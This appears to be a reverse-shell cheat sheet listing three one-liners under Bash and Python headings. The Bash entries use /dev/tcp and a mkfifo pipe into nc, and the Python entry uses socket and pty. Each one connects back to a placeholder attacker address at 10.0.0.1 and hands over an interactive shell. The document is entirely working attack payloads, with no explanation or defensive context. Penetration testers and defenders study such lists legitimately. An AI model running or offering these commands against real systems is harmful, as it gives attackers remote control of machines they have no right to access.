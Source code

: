 # Bash

` bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 `
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1337 >/tmp/f`

# Python

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' `
